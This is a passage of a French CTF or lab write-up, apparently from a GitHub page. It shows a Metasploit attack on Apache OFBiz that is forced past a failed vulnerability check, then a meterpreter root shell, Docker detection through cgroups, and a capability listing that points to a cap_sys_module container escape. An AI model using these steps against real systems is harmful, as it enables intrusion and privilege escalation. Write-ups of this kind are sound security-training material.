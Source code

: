 ```
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Target cannot deserialize arbitrary data. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
```
# Docker
A ce stade, on voit qu'on se trouve dans un docker compose: 
```
meterpreter > cat /proc/1/cgroup
12:pids:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
11:cpuset:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
10:hugetlb:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
9:devices:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
8:blkio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
7:cpu,cpuacct:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
6:freezer:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
5:net_cls,net_prio:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
4:perf_event:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
3:rdma:/
2:memory:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
1:name=systemd:/docker/69506ef7a41b39b56262c2f634281cffb6792b0be677ee04c6a3fac480a0983b
0::/system.slice/containerd.service
```
On va revenir à un shell:
```
meterpreter > shell
Process 203 created.
Channel 4 created.
```
On découvre qu'on est bien root. Le but est maintenant de sortir du docker compose
```
id
uid=0(root) gid=0(root) groups=0(root)
```
## Docker Escape
[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation) nous suggère de chercher des vulnérabilités de capabilities: 
```
capsh --print

Terminate channel 4? [y/N]  N                                                                                                                                               
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip                                                                                                                                         
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```
On voit ici que ``cap_sys_module`` peut etre exploité. (cf Hacktricks)
